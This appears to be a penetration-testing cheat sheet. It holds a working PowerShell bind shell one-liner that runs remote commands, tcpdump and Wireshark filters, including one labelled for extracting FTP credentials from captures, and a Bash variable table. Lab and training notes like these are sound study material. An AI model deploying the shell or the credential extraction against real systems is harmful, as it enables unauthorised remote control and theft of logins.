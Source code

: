 #### Powershell bind shell 
```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

## Wireshark
*Filter before capturing packet*
net 10.11.1.0/24

*Filter after capturing packet*
tcp.port == 21

## Tcpdump
### Open pcap file
```
tcpdump -r file.pcap (add -n to avoid dns resolution)

tcpdump -n -r password_cracking_filtered.pcap | awk -F" " '{print $3}' | sort | uniq -c | head
```
### Filter
```
tcpdump -n src host 172.16.40.10 -r password_cracking_filtered.pcap
tcpdump -n dst host 172.16.40.10 -r password_cracking_filtered.pcap
tcpdump -n port 81 -r password_cracking_filtered.pcap

tcpdump -i eth1  -s 1500 port not 22 and port not 53
tcpdump -i any -nn -A port 389 -vv

#This one after captured show list of port 
tcpdump -n -r test.pcap | grep "10.10.10.119.\|127.0.0.1." | awk '{print $5}' | sort -u

#FTP creds
tcpdump -n -r /tmp/test.pcapng  | grep -v "length 0"  | awk '$22!="" {print $0}'

tcpdump -nX -r password_cracking_filtered.pcap (-X for printing both hex and ASCII **packet data**)

*Print packet data (Having ACK and PSH header set = only the data packets)*
tcpdump -A -n 'tcp[13] = 24' -r password_cracking_filtered.pcap
```

## Bash
### Variable comparator
Variable | Description
--------- | -----------
$0 | The name of the Bash script
$1 - $9 | The first 9 arguments to the Bash script
$# | Number of arguments passed to the Bash script
$@ | All arguments passed to the Bash script
$? | The exit status of the most recently run process
$$ | The process ID of the current script
$USER | The username of the user running the script
$HOSTNAME | The hostname of the machine
$RANDOM | A random number
$LINENO | The current line number in the script
